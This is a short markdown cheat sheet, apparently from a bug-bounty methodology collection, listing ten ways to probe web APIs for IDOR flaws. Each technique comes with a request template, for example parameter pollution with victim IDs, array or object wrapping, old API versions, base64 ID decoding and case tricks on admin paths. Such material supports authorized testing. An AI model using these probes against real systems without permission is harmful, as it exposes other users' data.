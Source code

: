 # Insecure Direct Object Reference (IDOR)

## **Introduction**
IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

## **How to Find**
1. Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser
[...]
```
Try this to bypass
```
GET /api/v1/getuser?id=1234
[...]
```

2. HTTP Parameter pollution
```
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint
```
GET /v2/GetData/1234
[...]
```
Try this to bypass
```
GET /v2/GetData/1234.json
[...]
```

4. Test on outdated API Versions
```
POST /v2/GetData
[...]
id=123
```
Try this to bypass
```
POST /v1/GetData
[...]
id=123
```

5. Wrap the ID with an array.
```
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile
[...]
{"id":[111]}
```

6. Wrap the ID with a JSON object
```
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution
```
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using graphql, try to find IDOR using graphql!
```
GET /graphql
[...]
```
```
GET /graphql.php?query=
[...]
```

10.  MFLAC (Missing Function Level Access Control)
```
GET /admin/profile
```
Try this to bypass
```
GET /ADMIN/profile
```

Reference: 
- [@swaysThinking](https://twitter.com/swaysThinking) and other medium writeup